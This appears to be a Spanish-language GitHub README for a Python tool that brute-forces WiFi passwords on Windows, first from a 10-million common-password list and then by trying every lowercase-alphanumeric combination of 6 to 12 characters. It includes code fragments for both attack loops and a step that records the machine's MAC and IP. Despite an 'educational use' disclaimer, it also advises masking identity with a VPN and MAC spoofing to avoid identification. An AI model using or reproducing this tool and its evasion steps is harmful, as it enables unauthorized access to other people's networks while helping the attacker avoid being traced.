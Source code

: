![Portada del Script](logo.png)
#### Español
## WiFi Brute Force Script - Protección y Seguridad

Este script en Python realiza un ataque de fuerza bruta para obtener acceso a una red WiFi utilizando contraseñas comunes y combinaciones de caracteres. Puedes ajustar el rango de longitud de caracteres en el script para adaptarlo a tus necesidades. Ten en cuenta que el proceso puede demorar en encontrar la contraseña, dependiendo de la complejidad y longitud de la misma.

**Nota:** Evita estar conectado a cualquier red antes o durante la ejecución del script.

## Requisitos

- Python 3
- Sistema operativo compatible con los comandos `netsh` de Windows (para la configuración de red)

## Instalación

1. **Clonar el repositorio:**

   ```bash
   git clone https://github.com/tu_usuario/repo.git
   cd repo
   ```

#### El script utiliza bibliotecas estándar de Python. No se requiere ninguna instalación adicional.

# Uso

El script se ejecuta desde la línea de comandos proporcionando el nombre de la red WiFi como argumento:
   ```bash
    python main.py <nombre_red>
   ```

Reemplaza <nombre_red> con el nombre exacto y correcto de la red WiFi a la que deseas conectarte.
Esta modificación asegura que se utilicen comillas dobles alrededor del nombre de red y se enfatiza la importancia de proporcionar el nombre exacto para que el script funcione correctamente.

## Funcionamiento del script

### 1. Obtención de direcciones MAC e IP originales:

El script obtiene la dirección MAC y la dirección IP actual de la máquina.

   ```bash
original_mac = get_original_mac()
my_ip = get_ip_address()
print("Original MAC address:   ", original_mac)
print("Original IP address:    ", my_ip)
   ```

###  2. Ataque de fuerza bruta con contraseñas comunes

Utiliza una lista de contraseñas comunes desde un archivo de texto (10-million-password-list.txt) para intentar conectarse a la red.

```bash
def force_brute_txt(txt_file, wifiName):
    DB_PASSWORD = wifiCommonPassword(txt_file)
    for index, password in enumerate(DB_PASSWORD):
        outPut(password, index, wifiName)
```

### 3. Ataque de fuerza bruta con combinaciones de caracteres
Genera combinaciones de caracteres alfanuméricos para intentar encontrar la contraseña de la red.

```bash
def guess_password(wifiName):
    chars = string.digits + string.ascii_lowercase
    index = 0
    for password_length in range(6, 13):
        for guess in itertools.product(chars, repeat=password_length):
            index += 1
            guess = ''.join(guess)
            outPut(guess, index, wifiName)
```

## Seguridad y precauciones

**Precaución:** Este script está diseñado únicamente para fines educativos y de prueba en entornos controlados. El acceso no autorizado a redes WiFi es ilegal y puede tener consecuencias legales.

**Responsabilidad:** El uso indebido de este script es responsabilidad del usuario.

### Ocultar la VPN

Para proteger tu privacidad al utilizar una VPN, considera los siguientes pasos:

1. **Utilizar VPN de confianza:** Escoge una VPN reconocida por su seguridad y privacidad. Configura la VPN con protocolos seguros como OpenVPN.
2. **Configurar el firewall:** Asegúrate de que el firewall permita solo conexiones a través de la VPN para evitar fugas de datos.
3. **Evitar la geolocalización:** Utiliza funciones de la VPN para cambiar tu ubicación geográfica y proteger tu identidad en línea.

### Ocultar el MAC address

Para proteger tu dirección MAC y evitar la identificación:

1. **Cambiar el MAC address:** Investiga cómo cambiar o spoofear el MAC address de tu adaptador de red usando herramientas específicas o comandos según tu sistema operativo.
2. **Herramientas y configuraciones avanzadas:** Utiliza aplicaciones de terceros o comandos de sistema para modificar tu dirección MAC de forma efectiva.
3. **Evaluación continua:** Realiza pruebas periódicas para asegurarte de que tanto la VPN como el MAC address estén correctamente ocultos y protegidos.

Es importante utilizar estas técnicas de manera responsable y legal, respetando siempre los términos de uso y las leyes locales.

## Contribución

Si deseas contribuir con mejoras o correcciones, siéntete libre de hacer un fork del repositorio y enviar un pull request.

## Licencia

Este proyecto está bajo la licencia MIT. Consulta el archivo LICENSE para más detalles.
